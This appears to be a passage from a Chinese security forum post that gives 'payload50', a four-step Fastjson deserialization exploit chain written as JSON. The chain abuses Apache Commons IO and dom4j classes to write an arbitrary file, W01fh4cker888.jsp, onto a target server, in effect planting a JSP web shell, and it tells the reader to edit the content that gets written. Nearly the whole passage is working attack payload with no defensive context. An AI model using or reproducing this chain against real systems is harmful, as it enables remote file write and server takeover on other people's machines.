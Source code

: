分四步打，自行修改写入内容。

`payload50`（组合拳）：

```json
{"@type":"java.lang.Exception","@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}
```

```json
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}}}
```

```json
{"su14":{"@type":"javax.xml.transform.SourceLocator","@type":"org.apache.xpath.objects.XNodeSetForDOM","nodeIter":{"@type":"org.apache.xpath.NodeSet"},"xctxt":{"@type":"org.apache.xpath.XPathContext","primaryReader":{"@type":"org.dom4j.io.XMLWriter","entityResolver":{"@type":"org.dom4j.io.SAXContentHandler","inputSource":{"byteStream":{"@type":"java.io.InputStream"}}}}}}}
```

```json
{"su16":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker888.jsp","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su17":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su18":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su19":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}
```

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-b2c254b3d319d9c777d15d43bf8f07aa81102a0c.png)
